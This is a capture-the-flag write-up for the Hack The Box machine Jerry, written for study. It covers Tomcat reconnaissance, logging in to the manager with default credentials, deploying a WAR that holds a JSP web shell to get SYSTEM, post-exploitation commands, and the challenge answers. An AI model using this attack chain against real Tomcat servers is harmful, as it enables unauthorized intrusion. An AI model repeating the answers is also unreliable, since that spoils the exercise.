 # 🚀 Hack The Box: Jerry (Windows, Easy)

**by [a1i3n37x](https://github.com/a1i3n37x) · [Alien37.com](https://www.alien37.com)**

---

## ✨ Intro — Jerry

This is a box about awareness.

It’s a chance to practice recognizing what’s in front of you — and knowing what that means. You’ll learn to spot a vulnerable service, test assumptions carefully, and respond with the right kind of payload for the environment.

Jerry is built on fundamentals. There’s no trick, no twist. Just a web service running with too much power and no defenses.

What you’ll get from this box isn’t a challenge in complexity — it’s clarity.

---

## 📡 Reconnaissance — Jerry 

Jerry only exposes a single port. No SSH, no RDP — just 8080.

```bash
nmap -sC -sV -Pn 10.10.10.95 -oN jerry-nmap.txt
```

No ping because HTB drops ICMP a lot. Here’s what came back:

```bash
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
```

The Tomcat version is **7.0.88** — old enough to raise concerns.

### 🧠 Tomcat Versioning — What to Watch For

- 7.x often ships with exposed Manager interfaces
- SSL and strong auth not enforced by default
- WAR deployment usually enabled
- If running as SYSTEM? Full compromise possible

Opened in browser:

```bash
http://10.10.10.95:8080
```

Got the default Tomcat page — misconfiguration confirmed.

---

## 🔍 Scanning & Enumeration — Jerry

Checked for Manager and Host Manager apps:

```
/manager/html
/host-manager/html
```

Prompted for HTTP Basic Auth — good sign. Used:

[Better Tomcat Default Cred List](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt)

**Success:**

```text
tomcat:s3cret
```

Logged into **Web Application Manager**. Gained access to:

- Deployed apps
- Undeploy/reload
- Upload WAR files

---

## 💣 Gaining Access — Jerry

Used WAR upload form with a `msfvenom` payload — no shell.

Turns out: msfvenom payloads don’t always work on Tomcat.

### 🧠 Why msfvenom WARs Fail

- Embeds a binary inside `.jsp`
- Tomcat expects Java, not binaries
- Better: JSP web shell

Used a JSP shell from [tennc/webshell](https://github.com/tennc/webshell).

**WAR File Structure:**

```
browser-shell/
├── Browser.jsp
└── WEB-INF/
    └── web.xml
```

**web.xml**

```xml
<web-app>
  <servlet>
    <servlet-name>browser</servlet-name>
    <jsp-file>/Browser.jsp</jsp-file>
  </servlet>
  <servlet-mapping>
    <servlet-name>browser</servlet-name>
    <url-pattern>/browser</url-pattern>
  </servlet-mapping>
</web-app>
```

Deployed and hit:

```bash
http://10.10.10.95:8080/browser
```

**Shell loaded — `whoami` returned `nt authority\SYSTEM`**.

---

## 🧬 Post-Exploitation — Jerry

Already SYSTEM. No escalation needed.

```bash
hostname
ver
echo %cd%
```

Was in:

```text
C:\apache-tomcat-7.0.88\webapps
```

Searched for flags.

### ⚠️ SYSTEM Access = Full Compromise

- Read/write everything
- Dump creds
- Add users
- Pivot freely

### 🧪 Post-Ex Commands

```bash
whoami /priv
net user
net localgroup administrators
tasklist /v
ipconfig /all
```

---

## 🪙 Flag Capture — Jerry

Inside `C:\Users\Administrator\Desktop`:

```bash
2 for the price of 1.txt
```

**Both flags inside** — no separation.

---

## 🧭 Guided Mode Answers — Jerry

<details>
<summary><strong>Which TCP port is open on the remote host?</strong></summary>
8080
</details>

<details>
<summary><strong>Which web server is running on the remote host?</strong></summary>
Apache Tomcat
</details>

<details>
<summary><strong>Which relative path on the webserver leads to the Web Application Manager?</strong></summary>
/manager/html
</details>

<details>
<summary><strong>Valid username and password?</strong></summary>
tomcat:s3cret
</details>

<details>
<summary><strong>Which file type can be uploaded and deployed?</strong></summary>
.war
</details>

<details>
<summary><strong>Submit the flag on the user's desktop.</strong></summary>
Both flags are in: `2 for the price of 1.txt`
</details>

---

## 🧠 Lessons Learned — Jerry

- Tomcat on 8080 is a red flag
- Default creds are still everywhere
- JSP shells > reverse shells on older servers
- Always check privilege level early
- Don’t overcomplicate when the path is clear

---

## 🎓 CEH Summary — Jerry

**CEH Domains:**

- **Reconnaissance**: Nmap discovery of Tomcat on 8080
- **Enumeration**: Validated `/manager/html`, default creds
- **Exploitation**: WAR file upload with JSP shell
- **Privilege Escalation**: No escalation — direct SYSTEM access
- **Post-Exploitation**: Enumeration, flag capture, cleanup

**Key Takeaways:**

- Validate versions and exposed panels
- Default creds = still gold
- JSP shells offer control where reverse shells fail
- Always check your access level before escalating

> **“Two flags, one shell, and zero resistance. Jerry didn’t stand a chance. 👽”**

---

*Written by [a1i3n37x](https://github.com/a1i3n37x) · Hack The Box | [Alien37.com](https://alien37.com) 👽*
